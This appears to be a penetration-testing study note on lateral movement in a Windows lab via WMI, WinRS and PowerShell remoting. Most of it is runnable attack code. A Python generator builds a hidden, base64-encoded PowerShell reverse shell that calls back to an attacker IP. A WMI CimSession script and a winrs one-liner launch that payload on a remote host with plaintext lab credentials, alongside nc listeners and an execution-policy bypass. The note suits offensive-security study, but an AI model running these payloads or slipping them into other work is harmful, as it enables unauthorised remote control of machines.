




# WMI and WinRM

```bash
# Overall goal of these examples:
Your Kali Machine (192.168.45.244)
        |
        | RDP
        ↓
CLIENT74 (192.168.104.74) — logged in as jeff
        |
        | ← This is what we're trying to do (lateral movement)
        ↓
FILES04 (192.168.50.73) — trying to get a shell as jen
```
## Method 1: WMI (Windows Management Instrumentation)
- Using a PowerShell script with CimSession over DCOM protocol
```bash
# Create Script for a shell OR use revshells (Powershell base64)
# Step 1: Grab your Kali IP
ip a

# Step 2: Create Script
cd ~/scripts

#Create File
nano encode.py

# Paste Script
# Agnostic Version
import sys
import base64

# ---- CHANGE THESE ----
LHOST = "192.168.45.244"  # Your Kali IP
LPORT = "443"             # Your listening port
# ----------------------

payload = (
    f'$client = New-Object System.Net.Sockets.TCPClient("{LHOST}",{LPORT});'
    '$stream = $client.GetStream();'
    '[byte[]]$bytes = 0..65535|%{0};'
    'while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){'
    ';$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);'
    '$sendback = (iex $data 2>&1 | Out-String );'
    '$sendback2 = $sendback + "PS " + (pwd).Path + "> ";'
    '$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);'
    '$stream.Write($sendbyte,0,$sendbyte.Length);'
    '$stream.Flush()};'
    '$client.Close()'
)

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

#Example
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.244",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

## Run the script on Kali Machine
```bash
python3 encode.py

# This creates your reverse shell
```

```bash
# Start Listener
nc -lnvp 443
```

## Create PowerShell script for the Windows machine

```bash
nano wmi_shell.ps1
```
```bash
# Agnostic Version
# ---- CHANGE THESE ----
$username = 'USERNAME'
$password = 'PASSWORD'
$targetIP = 'TARGET_IP'
$Command  = 'YOUR_BASE64_PAYLOAD_HERE'
# ----------------------

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $targetIP -Credential $credential -SessionOption $Options

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
```bash
# Example Run
$username = 'jen';        # target username
$password = 'Nexus123!';  # target password
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIANAA0ACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

## Transfer Script over and run it

```bash
# change Policy first if possible
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted -Force

# Run it
.\wmi_shell.ps1

# Check Listener
```


## Method 2: WinRS (Windows Remote Shell)

```bash
# Start Listener
nc -nvlp 443

# From powershell run:
winrs -r:files04 -u:jen -p:Nexus123! " YOUR_BASE64_PAYLOAD"
#NOTE: files04 is the hostname

#Example Command
winrs -r:files04 -u:jen -p:Nexus123! "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIANAA0ACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```


# Method 3: PowerShell Remoting (WinRM)

```bash
# Start Listener
nc -lnvp 443
```
```bash
# In powershell, enter each line one by one:
#Agnostic
$username = 'USERNAME'
$password = 'PASSWORD'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

New-PSSession -ComputerName TARGET DEST. IP -Credential $credential
-------------------------------------------
#Example Command
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

New-PSSession -ComputerName 192.168.104.73 -Credential $credential
```
